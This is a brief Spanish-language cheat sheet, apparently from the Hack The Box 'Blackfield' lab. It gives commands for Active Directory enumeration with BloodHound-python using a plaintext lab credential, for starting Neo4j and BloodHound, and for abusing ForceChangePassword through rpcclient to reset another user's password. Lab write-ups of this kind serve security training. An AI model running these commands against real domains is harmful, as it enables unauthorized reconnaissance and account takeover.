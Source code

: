 # BloodHound

### Uso de BloodHound-python
```null
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

### Inicialización Neo4j
```null
sudo neo4j console
bloodhound &>/dev/null & disown
```

## Abuso de ForceChangePassword

### Modificación de contraseña por RPC
```null
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```


